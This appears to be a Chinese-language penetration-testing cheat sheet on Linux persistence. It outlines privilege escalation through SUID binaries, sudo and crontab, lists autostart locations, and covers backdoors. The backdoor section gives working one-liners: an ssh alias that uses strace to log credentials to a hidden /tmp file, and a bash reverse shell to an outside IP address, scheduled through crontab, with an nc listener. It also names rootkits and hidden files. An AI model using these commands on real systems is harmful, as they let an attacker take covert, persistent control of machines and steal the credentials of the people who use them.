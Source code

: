 持久化 - Linux
========================================

权限提升
----------------------------------------
- 内核漏洞利用
- 攻击有root权限的服务
- 利用第三方服务提权
- 通过有SUID属性的可执行文件
    - 查找可能提权的可执行文件
    - ``find / -perm +4000 -ls``
    - ``find / -perm -u=s -type f 2>/dev/null``
    - ``find / -user root -perm -4000 -print 2>/dev/null``
    - ``find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null``
- 利用可用的root权限
    - ``sudo -l``
- 利用误配置的 crontab 任务

自启动
----------------------------------------
- /etc/init.d
- /etc/rc.d/rc.local
- /lib/systemd/system
- ~/.bashrc
- ~/.zshrc

后门
----------------------------------------
- ssh 后门
    - ``alias ssh='strace -o /tmp/.ssh.log -e read,write,connect -s 2048 ssh'``
    - 后门账户

- 反弹Shell
    - ``bash -i >& /dev/tcp/192.168.28.131/12345  0>&1``
        - 可用于添加 ``crontab -e`` 周期性反弹
        - ``nc -lvp 12345`` 监听
- 重编译 openssh 后门
- ssh 公私钥免密登录
- 常见应用
    - ICMP
    - DNS
- icmp后门
- 后门端口复用
- ``.`` 开头隐藏文件
- rootkit


参考链接
----------------------------------------
- `Linux 持续化 <https://bypass007.github.io/Emergency-Response-Notes/privilege/%E7%AC%AC4%E7%AF%87%EF%BC%9ALinux%E6%9D%83%E9%99%90%E7%BB%B4%E6%8C%81--%E5%90%8E%E9%97%A8%E7%AF%87.html>`_